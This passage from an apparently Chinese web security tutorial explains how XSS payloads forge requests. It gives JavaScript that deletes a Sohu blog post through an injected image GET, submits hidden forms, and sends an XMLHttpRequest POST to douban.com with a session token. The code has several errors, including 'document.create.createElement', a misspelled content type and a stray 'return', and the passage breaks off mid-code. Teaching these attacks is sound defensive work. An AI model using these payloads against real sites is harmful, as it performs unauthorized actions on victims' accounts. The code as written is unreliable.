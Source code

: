 ```html
http://blog.sohu.com/mange/entry.do?m=delete&id=12345
```

对于攻击者而言，只需要知道文章的id就能删除这篇文章了，如下，攻击者通过插入一张图片发起一个GET请求：

```javascript
var img = document.create.createElement("img")

img.src = "http://blog.sohu.com/mange/entry.do?m=delete&id=12345";

document.body.appendChild(img);
```

攻击者现在只要让博客作者执行这段代码，就能删除这篇文章，攻击者可以通过XSS诱使用户执行XSS payload

##### 1.2.1.2 POST请求

POST通过提交表单来提交数据

攻击者模拟提交表单的过程就能完成攻击，两种方法：

1. 构建form表单，然后自动提交表单

```javascript
var f = document.createElement("form");
f.action = "";
f.method = "post";
document.body.appendChild(f);

var i = document.createElement("input");
i.name = "ck";
i.value = "JiUY";
document.body.appendChild(i);
//...

// 如果表单的参数过多的画，通过DOM节点一个个构造代码两会很大，所以直接写HTML代码:

var dd = document.createElement("div");
document.body.appendChild(dd);

dd.innerHTML ='<form action="" method="post" id="xssform" name="mbform">'+'<input type="hidden" value="JiUY" name="ck" />'+'</form>'
//...
```

2. 通过XMLHttPrequest发送一个POST请求

```javascript
var url = "http://www.douban.com";

var postStr = "ck=JiUY&mb_text=test1234";

var ajax = null;
if(window.XMLHTTPRequest){
    ajax = new XMLHttpRequest();
}else if(window.ActiveXObject){
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}else{
    return;
}

ajax.open("POST", url, true);
ajax.setRequestHeader("Content-Type","application/x-www-form-unlencoded");
ajax.send(postStr);

ajax.onreadystatechange = function(){
    if(ajax.readyState ==4 && ajax.status ==200){
        alert("Done!")
```